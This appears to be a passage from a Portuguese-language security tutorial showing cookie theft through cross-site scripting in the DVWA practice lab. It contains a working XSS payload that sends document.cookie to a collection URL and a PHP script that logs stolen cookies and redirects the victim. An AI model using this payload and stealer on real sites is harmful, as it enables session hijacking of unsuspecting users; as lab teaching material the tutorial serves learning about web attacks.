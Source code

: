 **" *Ah, mas quem é que vai por um código assim na página?"***

Creio que ninguém, mas sabendo que há como fazer injeção de código, Você mesmo pode fazê-la na página. Duvidas? Vamos ao **Dvwa** simular a situação.

o código:
```javascript
    <script>document.location = 'http://127.0.0.1/passaocookie.php?pwn=' + document.cookie;</script>
```
a saída:

![the error](/assets/images/wtf/HOlWi2s.png)

Então não, não é tão impossível quanto parece. Sigamos!

---

Certo, criemos agora um script php responsável por realizar o roubo dos cookies.
```php
    <?php  
    header ('Location:https://deadlock.team');
            $cookies = $_GET["pwn"];
            $file = fopen('saida.txt', 'a');
            fwrite($file, $cookies . "\n\n");
    ?>
```
Ao abrirmos a página html, imediatamente somos redirecionados ao site [Deadlock.team](https://Deadlock.team). Porém, ao observarmos o log de acesso com o php, temos a seguinte resposta:

![cookiestealer](/assets/images/wtf/IO9v7yv.png)

E cá está nosso cookie roubado.

---
Porém, caso não consigamos executar as tags  `<script>`, precisamos de outro modo do código ser executado no lado do servidor. Vejamos algum exemplo.
